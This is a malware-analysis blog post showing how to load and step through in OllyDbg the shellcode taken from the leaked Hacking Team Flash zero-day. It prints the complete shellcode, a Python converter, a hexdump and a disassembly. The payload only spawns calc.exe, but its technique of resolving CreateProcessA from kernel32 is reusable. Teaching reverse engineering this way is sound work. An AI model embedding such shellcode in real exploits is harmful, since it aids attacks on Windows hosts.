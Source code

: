 ```yaml
---
layout: post
title: Shellcode analysis in OllyDbg
category: malware-analysis
tags: [malware-analysis, reverse-engineering, ollydbg]
---
```


In order to show how to analyze a shellcode in OllyDbg we first need to find a sample. For this post I choose the shellcode included in the [Hacking-Team flash zero-day](https://github.com/hackedteam/vector-exploit/blob/master/src/flash-0day-vitaly2/exp1/ShellWin32.as) which simply executes a `calc.exe` process. The shellcode is normally delivered encoded in some way, in our case
it looks quite good already:

```
_x32:Vector.<uint> = Vector.<uint>([			
				0x83EC8B55, 0x5153ACC4, 0x058B6457, 0x00000030, 0x8B0C408B, 0x008B0C40, 0x588B008B, 0x03D88918,
				0x508B3C40, 0x8BDA0178, 0xDF01207A, 0x078BC931, 0x3881D801, 0x61657243, 0x78811C75, 0x4173730B,
				0x8B137500, 0xD8012442, 0x4804B70F, 0x011C528B, 0x821C03DA, 0xC78309EB, 0x4A3B4104, 0x8DCF7C18,
				0x8D50F045, 0x3157AC7D, 0x0011B9C0, 0xABF30000, 0x44AC45C7, 0x50000000, 0x50505050, 0x0009E850,
				0x61630000, 0x652E636C, 0x50006578, 0x595FD3FF, 0x03E0C15B, 0xC906C083, 0x909090C3
			]);
```

The first thing to do is to convert the above vector of double words in a binary format (sequence of bytes) that can be loaded easily in OllyDbg. With some python magic this can easily be done:

```python
import struct

data = [0x83EC8B55, 0x5153ACC4, 0x058B6457, 0x00000030, 0x8B0C408B, 0x008B0C40, 0x588B008B, 0x03D88918,	0x508B3C40, 0x8BDA0178, 0xDF01207A, 0x078BC931, 0x3881D801, 0x61657243, 0x78811C75, 0x4173730B,	0x8B137500, 0xD8012442, 0x4804B70F, 0x011C528B, 0x821C03DA, 0xC78309EB, 0x4A3B4104, 0x8DCF7C18,	0x8D50F045, 0x3157AC7D, 0x0011B9C0, 0xABF30000, 0x44AC45C7, 0x50000000, 0x50505050, 0x0009E850, 0x61630000, 0x652E636C, 0x50006578, 0x595FD3FF, 0x03E0C15B, 0xC906C083, 0x909090C3]

with open('shellcode.bin', 'wb') as f:
	for code in data:
		# we target intel x86 architecture -> little-endian
		f.write(struct.pack('<I', code))
```

If we then give a look to the shellcode.bin file we can see the recognizable `calc.exe` string. We are on the right track...

```
$ hexdump -C shellcode.bin
00000000  55 8b ec 83 c4 ac 53 51  57 64 8b 05 30 00 00 00  |U.....SQWd..0...|
00000010  8b 40 0c 8b 40 0c 8b 00  8b 00 8b 58 18 89 d8 03  |.@..@......X....|
00000020  40 3c 8b 50 78 01 da 8b  7a 20 01 df 31 c9 8b 07  |@<.Px...z ..1...|
00000030  01 d8 81 38 43 72 65 61  75 1c 81 78 0b 73 73 41  |...8Creau..x.ssA|
00000040  00 75 13 8b 42 24 01 d8  0f b7 04 48 8b 52 1c 01  |.u..B$.....H.R..|
00000050  da 03 1c 82 eb 09 83 c7  04 41 3b 4a 18 7c cf 8d  |.........A;J.|..|
00000060  45 f0 50 8d 7d ac 57 31  c0 b9 11 00 00 00 f3 ab  |E.P.}.W1........|
00000070  c7 45 ac 44 00 00 00 50  50 50 50 50 50 e8 09 00  |.E.D...PPPPPP...|
00000080  00 00 63 61 6c 63 2e 65  78 65 00 50 ff d3 5f 59  |..calc.exe.P.._Y|
00000090  5b c1 e0 03 83 c0 06 c9  c3 90 90 90              |[...........|
0000009c
```

Before continuing, make sure you have [Olly Advanced](https://tuts4you.com/download.php?view.75) plugin installed in OllyDbg. This plugin offers great memory management capabilities that we are going to use for our shellcode.

Now let's start OllyDbg and load a sample application (e.g. notepad.exe). In the memory map window (`Alt-M`) just right-click and select `Load dumped memory` and select the shellcode file we created with the python script.

![Load shellcode](/public/images/load_shellcode.png "Load shellcode")

If you didn't entered a target address, remember to note down the one displayed in the status bar after the allocation:

![Address on the status bar](/public/images/status_bar_memory_address.png "Shellcode address in the status bar")

In our case the shellcode got written at `0x00120000` so let's move to the CPU window (`Alt-C`) and go to this address (`CTRL-G`).

Once there you should see the common `push ebp, mov ebp, esp` instruction which confirm that the shellcode is loaded correctly.

![Shellcode reached](/public/images/shellcode_reached.png "Shellcode reached!")

Let's quickly describe what we are looking here.
At the beginning it loops the `kernel32` Import Address Table (IAT) searching an API starting with the letters 'Crea':

```
00120032   8138 43726561    CMP DWORD PTR DS:[EAX],61657243
```

Then it refines the search further by looking at offset `B` for the string 'ssA':

```
0012003A   8178 0B 73734100 CMP DWORD PTR DS:[EAX+B],417373
```

We can quickly deduce that it is looking for the `CreateProcessA` API.
It then computes the address of the API and saves it to the register `EBX`.

Notice that the final call to the `CreateProcessA` API is done in a separate function (`0x0012008B`), if we look at the function `call` instruction we notice that is directly before the `calc.exe` string.

```
0012007D   E8 09000000      CALL 0012008B
00120082   6361 6C          ARPL WORD PTR DS:[ECX+6C],SP
00120085   632E             ARPL WORD PTR DS:[ESI],BP
```
Doing so the address `0x00120082` is being pushed to the stack as return value for the `0x0012008B` function but actually it is used as pointer to `CommandLine` buffer of the `CreateProcessA` in function `0x0012008B`. This actually saves some precious bytes since there is no need to explicit load the `calc.exe` address to the stack.

```
0022F990   0012008E  /CALL to CreateProcessA from 0012008C
0022F994   00000000  |ModuleFileName = NULL
0022F998   00120082  |CommandLine = "calc.exe"
0022F99C   00000000  |pProcessSecurity = NULL
0022F9A0   00000000  |pThreadSecurity = NULL
0022F9A4   00000000  |InheritHandles = FALSE
0022F9A8   00000000  |CreationFlags = 0
0022F9AC   00000000  |pEnvironment = NULL
0022F9B0   00000000  |CurrentDir = NULL
0022F9B4   0022F9C8  |pStartupInfo = 0022F9C8
0022F9B8   0022FA0C  \pProcessInfo = 0022FA0C
```

If everything goes well you should see the calculator to pop open:
![calc.exe open](/public/images/calc_launched.png "calc.exe is launched")
